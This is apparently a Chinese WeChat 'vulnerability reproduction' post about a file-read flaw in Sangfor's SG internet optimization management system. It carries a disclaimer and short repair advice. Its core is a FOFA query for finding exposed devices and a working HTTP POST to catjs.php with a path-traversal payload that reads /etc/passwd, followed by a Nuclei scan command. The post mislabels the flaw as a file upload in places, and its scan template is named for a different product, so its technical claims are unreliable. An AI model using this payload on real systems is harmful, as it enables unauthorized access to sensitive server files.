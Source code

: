 #  漏洞复现|深信服SG上网优化管理系统存在文件读取漏洞   
原创 禾小盾  数字人才创研院   2023-10-12 15:51  
  
点击上方  
蓝字关注我们  
  
BEGINNING OF SPRING  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/z7icWibwNQicf1QCEcTzvGFkdLPgp832KCow54U64xGcfU3BoUqphwjsUoJic0EyTBMFAxEykWLnfeILAcZRtzLrdQ/640?wx_fmt=gif "")  
  
  
0x01  
  
      阅读须知         
  
Reading Instructions  
  
![](https://mmbiz.qpic.cn/mmbiz_png/X8pI8icoh79vrwCxdib7QSBb6QLSO3psbEiaXHfy8RZh13ic6m57LBtGhC60SdVIVRk7GmvkqiaibIriaHvgkORAia55lQ/640?wx_fmt=png "")  
  
    数字人才创研院秉承探究学习与交流的理念，一切从降低已有潜在威胁出发，所有发布的技术文章仅供参考，未经授权请勿利用文章中的技术内容对任何计算机系统进行入侵操作，否则对他人或单位而造成的直接或间接后果和损失，均由使用者本人负责。  
  
    郑重声明：本文所提供的工具与思路仅用于学习与研究，禁止用于非法目的！  
  
团队已致电说明并告知详细解决方案！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/XQsIhMDyz0unrjh9QZibtE16IibicwafvgPDLKqCMhDFfddJIWIHR8FWuIjyib2OpS1LNz9VWTt0EBTwTHMpSibibvng/640?wx_fmt=png "")  
  
  
0x02  
  
       漏洞概述        
  
Vulnerability Overview  
  
  深信服科技股份有限公司是一家专注于企业级网络安全、云计算、IT基础设施与物联网的产品和服务供应商，拥有深信服智安全、信服云两大业务品牌，与子公司信锐技术，致力于承载各行业用户数字化转型过程中的基石性工作，从而让每个用户的数字化更简单、更安全。  
  
  深信服SG上网优化管理系统 catjs.php  
**存在任意文件上传漏洞**，  
未经授权的攻击者通过漏洞可以上传任意文件，获取服务器权  
限。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MPrt2xIEpHQrRiazwwibvw1eEevqHCYicDRhVvPC4nRIWeHZiar4wQWCcrXPEZOCYH5EVSHtMgvPP4rmVNdibhTG4GQ/640?wx_fmt=jpeg "")  
  
**(文章仅限技术交流，禁止非授权操作！)**  
  
0x03  
  
       漏洞复现        
  
Vulnerability Recurrence  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bDYS2PAYoqic9mQ5FnGia01eSuHGU1UPycSXqxrvp6ibBX9pQPGfK2AWibOef8ET2TJ8OCoaian4s8C6zgqyavG6ibPQ/640?wx_fmt=png "")  
  
fofa：title="SANGFOR上网优化管理"  
  
  
1.执行如下语句上传txt文档，并访问该txt文件。  
```

POST /php/catjs.php HTTP/1.1
Host: {Hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 35
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
["../../../../../../../etc/passwd"]

其中Hostname为目标漏洞平台的实际地址或域名
```  
  
  
  
  
2.访问  
目标漏洞资产  
，得到内容“敏感信息”  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MPrt2xIEpHQrRiazwwibvw1eEevqHCYicDRND4FjPqjZTjEsXTOhHTicibnQb6C7DlFuGCKv3FNH0jMiaCJTPG4vbeWw/640?wx_fmt=png "")  
  
**(文章仅限技术交流，禁止非授权操作！)**  
  
0x04  
  
     漏洞脚本       
  
Vulnerability script  
  
1.Nuclei验证脚本命令使用如下：  
```
nuclei.exe -t wangshen-secgate-objappupfile-fileupload.yaml -l wangshen-secgate-objappupfile-fileupload_Subs.txt
--------------------------------------------
wangshen-secgate-objappupfile-fileupload_Subs.txt可以结合实际情况自定义
--------------------------------------------
```  
  
  
  
  
2.空间指纹截图如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MPrt2xIEpHQrRiazwwibvw1eEevqHCYicDRQhh0GdibsPSJ0WV1U3jYIiatDSaWjz16eCs6KWUT1DQEiab0dCQwlznzA/640?wx_fmt=jpeg "")  
  
  
  
  
3.关注公众号并回复：  
**深信服SG**  
，即可**获取脚本**  
。  
  
  
  
  
**(文章仅限技术交流，禁止非授权操作！)**  
  
0x05  
  
     修复建议       
  
Repair Suggestions  
  
1.实施产品的权限访问控制，降低互联网搜索引擎的查询。  
  
  
  
2.加强后台认证要求（如AAAA策略等），提高口令的安全性。  
  
  
  
3.增强关键页面的安全性，提升WEB后台的安全访问控制权限能力。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ib745vqibLBGIeAicnHiag9GCzTYjeicic5IWPqfyjLajDuwtJdNCAnCgcolqY8ROaE5CsEXR5zbjCU9aVl3WfkZpnDw/640?wx_fmt=png "")  
  
往期推荐 · 值得阅看  
  
  
[点亮「星标」，让我们不再错过~2023-10-11 ](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247492095&idx=1&sn=9420eaa5c76b190b343b41ab1bc65e89&chksm=c0c9d3e8f7be5afe30b91b8b3c54ca3eab08d2ff629f41b00b6b2dae44994606990c9c4b7690&scene=21#wechat_redirect)  
  
  
[漏洞复现|网神SecGate3600防火墙存在任意文件上传漏洞2023-09-28 ](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247491725&idx=1&sn=46a57080be18fe06606ade8e06818ad3&chksm=c0c9d29af7be5b8c55ae5f4a2e1ada52dd6166bf976f22ec3cb35808abbaee40536e94523269&scene=21#wechat_redirect)  
  
  
[漏洞复现|某友集团报表系统存在未授权访问+任意文件上传利用漏洞2023-09-20 ](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247491223&idx=1&sn=b94be504d8ee400999daf770758f3dbe&chksm=c0ca2c80f7bda59632c9dafb1d3c33e1f344e27822fb5860e768b9fc5140c045d0826a9cf64f&scene=21#wechat_redirect)  
  
  
[漏洞复现|某VPN存在未授权管理用户遍历+任意账号密码修改漏洞2023-08-15 ](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247491171&idx=1&sn=ec1fd325fcbbd7aae3b7d1d1e80c4e66&chksm=c0ca2c74f7bda56270c74ec0c99da89261d0a3a3b4708c23bf52be8e867e387935beacbdc496&scene=21#wechat_redirect)  
  
  
[PHPMyadmin的Getshell方法汇总2023-07-01 ](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247489772&idx=1&sn=bb2dff403c65967b451f73d0716b3ff7&chksm=c0ca2afbf7bda3eda3dbbe4a70bb3e6e76a3a08affbfa79fc28664bcf54e5ab1e8d8bfaf9c88&scene=21#wechat_redirect)  
  
  
[漏洞复现|北京网康 NS-ASG安全网关存在远程命令执行漏洞2023-06-19 ](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247489074&idx=1&sn=e73cda6e82c3ecd9e744b47b8c724476&chksm=c0ca2425f7bdad3358bb6befad958262a271c3e80dc907d29255ce6321294c7c8d9be19ce5a4&scene=21#wechat_redirect)  
  
  
[漏洞复现|联软科技安全准入门户平台存在远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247488202&idx=1&sn=4c78b80022a12ed637d312647a2f7ee2&chksm=c0ca20ddf7bda9cb738eaea8983768026a1184189b0417577f716750a4f34041f8fcf7a05bd8&scene=21#wechat_redirect)  
  
  
[2023-06-02](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247488202&idx=1&sn=4c78b80022a12ed637d312647a2f7ee2&chksm=c0ca20ddf7bda9cb738eaea8983768026a1184189b0417577f716750a4f34041f8fcf7a05bd8&scene=21#wechat_redirect)  
  
[](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247488202&idx=1&sn=4c78b80022a12ed637d312647a2f7ee2&chksm=c0ca20ddf7bda9cb738eaea8983768026a1184189b0417577f716750a4f34041f8fcf7a05bd8&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/MPrt2xIEpHS7vY5SI8cwvJ72nffia4HaVDAoUJxZNlEwC6VPkWv3HaU87FESAArqcqj4Lh9t3Yd7YP2ZDrOto0Q/640?wx_fmt=gif "")  
  
END  
  

